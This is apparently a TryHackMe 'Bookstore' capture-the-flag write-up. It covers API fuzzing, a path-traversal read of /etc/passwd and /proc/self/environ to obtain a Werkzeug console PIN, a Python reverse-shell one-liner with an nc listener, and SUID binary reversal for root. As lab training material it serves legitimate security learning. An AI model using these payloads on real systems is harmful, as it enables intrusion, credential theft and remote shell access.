# TryHackme - Bookstore

## Enumeration

I start with a simple nmap scan and lets see what ports are open.

`nmap -sV -n -Pn <IP>`



We see an open SSH service and two web servers.
The first webserver on port 80 provides us with a nice website while the second one tells us that it is a `Foxy REST API v2.0`.



I started with the second webserver on port 5000 and first looked if a `robots.txt` is available.
The entry `Disallow: /api` leads us to the API documentation and we can see how to use the API.



I have made a few querys, looked at the docs and played around a bit with the API.
The first thing I noticed was the `v2` in the URL, so I checked if there are other versions available.
And the path `/api`**`/v1/`**`resources/books/all` works as well.
Presumably we can now find here other and old functionalities which are not found in the current version more and have vulnerabilities.
In the __OWASP API Security Top 10__ this is listed as __Improper Assets Management__.

So I started to fuzz both versions a bit and find differences.
I searched with __FFUF__ at different points.
At the web root I found the `/console` of the `Werkzeug`, which is PIN protected.



While fuzzing for new parameters I came across the following:

`http://<IP>:5000/api/v1/resources/books?FUZZ=1`



## Exploitation

The `show` functionality is not included in the current v2 version.
If we look at it in the browser we see that we are dealing with flask and will get various traceback error messages.
The output `NameError: name 'filename' is not defined` first made me think that the application expects filenames and we should look for a LFI vulnerability here.


And look!
If we pass the `show` parameter `../../etc/passwd` we see the passwd file.



How to proceed now?
We have a LFI vulnerability and the `/console` tool which is still PIN protected.
In the console we will be able to issue python commands and thus establish a reverse shell.

I assumed that we have to generate it with the `Werkzeug Console PIN Exploit` and started to collect the necessary information: `username,modname...`.
Then the pincode fortunately already fell into my hands when including `/proc/self/environ` as environment variable.....nice!



We go to `/console` enter the PIN and we can establish a reverse shell.

Listener on attacker-machine: `nc -nlvp 9876`

Python rev-shell for the console: `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",9876));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")`

We have reverse shell, go to the home directory and get the user flag.



## PrivEsc

Now to the Privilege Escalation.
In the home directory next to our flag we notice an interesting file called `try-harder`.
Interesting, let's have a closer look at it!

`ls -l try-harder`



The __owner__ of this executable is __root__ and it has a __SUID__ permission.
When executing the file we see that the file asks us for a magic number which we unfortunately do not have.

First I tried with `ltrace` and `strace` to find out the desired number, but it didn't work.
With `strings` it was also not possible, but with the output I noticed the string `/bin/bash -p` which confirms my assumption that we get a root shell after entering the correct number.

So I used `python3 -m http.server` and `curl` to get the file on my machine to look at it with Ghidra.
Ghidra's decompiled code looks like this.



Let's break the code down a bit.
The binary takes our input and performs an XOR operation: `local_14 = local_1c ^ 0x1116 ^ local_18`.
If the result from the previous calculation comes to the value 1573724660 the condition will be true and we will get the root shell.

```C
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
```
  
 XOR is reversible, so here's how we can get our Magic Number in Python.
  
```
>>>0x5dcd21f4 ^ 0x1116 ^ 0x5db3
>>>
```

We submit the number and get a bash as root!




